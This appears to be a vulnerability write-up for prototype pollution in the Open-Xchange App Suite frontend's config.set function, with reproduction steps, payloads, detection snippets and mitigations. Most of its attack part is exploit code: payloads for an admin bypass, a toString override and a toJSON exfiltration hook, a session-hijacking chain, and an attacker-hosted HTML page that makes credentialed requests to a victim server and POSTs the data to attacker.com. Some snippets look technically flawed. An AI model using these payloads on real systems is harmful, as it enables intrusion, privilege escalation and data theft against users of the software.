

**Vulnerable Code Path**:  
```javascript  
// Original vulnerable implementation (Line 56)  
set: function (key, value) {  
    var parts = key.split('.'),  
        temp = config,  
        part;  
    while (parts.length > 1) {  
        part = parts.shift();  
        if (!temp[part]) temp[part] = {};  
        temp = temp[part];  
    }  
    temp[parts.shift()] = value;  // VULNERABLE POINT  
}  
```  


### Step-by-Step Reproduction   
### Environment Setup  
```bash  
# Checkout vulnerable version  
git clone https://github.com/open-xchange/appsuite-frontend.git  
cd appsuite-frontend  
git checkout c4051eaec809de7f0d32f4fc3d1040f701fcd030  

# Install dependencies  
npm install  

# Start development server  
npm run dev  
```  

### Access Developer Console  
1. Open browser to `http://localhost:8337/appsuite/`  
2. Login with credentials console
   
### Execute Exploit  
```javascript  
// Pollution to bypass authentication  
ox.config.set('__proto__.isAdmin', true);  

// Pollution to hijack toString method  
ox.config.set('constructor.prototype.toString', function() {  
    return '<script>alert("HACKED")</script>';  
});  

// Pollution for data exfiltration  
ox.config.set('__proto__.toJSON', function() {  
    fetch('https://attacker.com/exfil', {  
        method: 'POST',  
        body: JSON.stringify(this)  
    });  
    return JSON.stringify(this);  
});  
```  

### Verify Exploitation  
```javascript  
// Check prototype pollution  
console.log("Prototype pollution verification:");  
console.log({}.isAdmin);  // Should return true  

// Trigger XSS  
document.body.innerHTML = new Date().toString();  
// Should display alert "HACKED"  

// Trigger exfiltration  
JSON.stringify({sensitive: "data"});  
// Check attacker server for received data  
```  


## Detailed Exploitation Catalog  
### Exploit Payloads  
| Attack Type         | Payload                                                                 | Impact                                                                 |  
|---------------------|-------------------------------------------------------------------------|------------------------------------------------------------------------|  
| **Auth Bypass**    | `ox.config.set('__proto__.isAdmin', true)`                             | Grants admin privileges to all users                                   |  
| **XSS Injection**  | `ox.config.set('constructor.prototype.toString', alert)`               | Executes arbitrary JavaScript in application context                   |  
| **Data Theft**     | `ox.config.set('__proto__.toJSON', exfiltrationFunction)`             | Steals sensitive application data                                     |  


### Advanced Scenario Session Hijacking  
```javascript  
// Step 1: Hijack session storage  
ox.config.set('__proto__.session', {  
    user: 'attacker',  
    tokens: ['stolen_token'],  
    isAdmin: true  
});  

// Step 2: Override authentication check  
const originalAuthCheck = ox.security.isAuthenticated;  
ox.config.set('__proto__.isAuthenticated', function() {  
    return true; // Always authenticated  
});  

// Step 3: Access protected resources  
ox.api.get('/appsuite/api/contacts?action=all', function(data) {  
    // Exfiltrate all contacts  
    fetch('https://attacker.com/steal', {  
        method: 'POST',  
        body: JSON.stringify(data)  
    });  
});  
```  

### Vulnerability Prototype Pollution Flow:  
1. **Path Parsing**:  
   ```javascript  
   // Input: "__proto__.isAdmin"  
   parts = ['__proto__', 'isAdmin']  
   ```  

2. **Recursive Traversal**:  
   ```javascript  
   while (parts.length > 1) {  
       part = parts.shift(); // '__proto__'  
       temp = temp[part]; // temp now points to Object.prototype  
   }  
   ```  

3. **Property Assignment**:  
   ```javascript  
   temp['isAdmin'] = true; // Modifies Object.prototype  
   ```  

**Impact Propagation**:  


### Exploit Chaining  
1. **Initial Pollution**:  
   ```javascript  
   ox.config.set('__proto__.authBypass', true)  
   ```  

2. **Logic Manipulation**:  
   ```javascript  
   if (user.authBypass) { // Now true for ALL objects  
       loadAdminDashboard();  
   }  
   ```  

3. **Persistence**:  
   ```javascript  
   ox.config.set('constructor.prototype.persist', 'malicious_code')  
   ```  


## Detection Signatures  
**Client-Side Indicators**:  
```javascript  
// Monitor prototype modifications  
Object.defineProperty(Object.prototype, 'isAdmin', {  
    set: function(value) {  
        console.warn('Prototype pollution attempt!', value);  
        securityAlert();  
    },  
    configurable: false  
});  
```  

**Server-Side Log Patterns**:  
```log  
# Suspicious configuration requests  
"method": "POST",  
"endpoint": "/appsuite/api/config/set",  
"parameters": {  
    "key": "__proto__",  
    "key": "constructor.prototype"  
}  

# Anomalous admin actions  
"user": "normal_user",  
"action": "admin_function",  
"status": "success"  
```  

### Detection Analyze  
```javascript  
// pollution_detector.js  
const originalProto = Object.prototype.toString;  

Object.defineProperty(Object.prototype, 'toString', {  
    get: function() {  
        if (this.__polluted__) {  
            reportSecurityIncident();  
        }  
        return originalProto;  
    },  
    configurable: false  
});  

// Monitor for pollution attempts  
setInterval(() => {  
    if (Object.prototype.isAdmin !== undefined ||  
        {}.polluted === true) {  
        alert('Prototype pollution detected!');  
    }  
}, 5000);  
```  


## Immediate Actions  
1. **Input Sanitization**:  
   ```javascript  
   function sanitizeConfigKey(key) {  
       return key.replace(/__proto__|constructor|prototype/g, '');  
   }  
   ```  

2. **Object Freezing**:  
   ```javascript  
   Object.freeze(Object.prototype);  
   Object.freeze(Object);  
   ```  

### Long-Term Hardening  
1. **Content Security Policy**:  
   ```http  
   Content-Security-Policy: script-src 'self';  
   ```  

2. **Security Headers**:  
   ```http  
   X-Content-Type-Options: nosniff  
   X-Frame-Options: DENY  
   ```  

3. **Regular Audits**:  
   - Static analysis with Semgrep/SonarQube  
   - Dynamic analysis with Burp Suite/OWASP ZAP  


## Exploit Code  
```html  
<!-- attacker.com/exploit.html -->  
<script>  
function exploit(targetUrl) {  
    fetch(`${targetUrl}/appsuite/api/config/set`, {  
        method: 'POST',  
        headers: {'Content-Type': 'application/json'},  
        body: JSON.stringify({  
            key: '__proto__.isAdmin',  
            value: true  
        }),  
        credentials: 'include'  
    }).then(() => {  
        fetch(`${targetUrl}/appsuite/api/admin/data`, {  
            credentials: 'include'  
        }).then(response => response.json())  
          .then(data => {  
             exfiltrate(data);  
        });  
    });  
}  

function exfiltrate(data) {  
    fetch('https://attacker.com/steal', {  
        method: 'POST',  
        body: JSON.stringify(data)  
    });  
}  

// Trigger when victim visits  
exploit('https://victim-appsuite.com');  
</script>  
```  


```javascript  
// pollution_scanner.js  
function scanForPrototypePollution() {  
    const testValues = {  
        '__proto__.polluted': true,  
        'constructor.prototype.hacked': true  
    };  
    
    const results = {};  
    
    for (const key in testValues) {  
        try {  
            ox.config.set(key, testValues[key]);  
            const testObj = {};  
            if (testObj.polluted || testObj.hacked) {  
                results[key] = 'VULNERABLE';  
            } else {  
                results[key] = 'SAFE';  
            }  
        } catch (e) {  
            results[key] = 'BLOCKED';  
        }  
    }  
    
    return results;  
}  

console.log(scanForPrototypePollution());  
```  
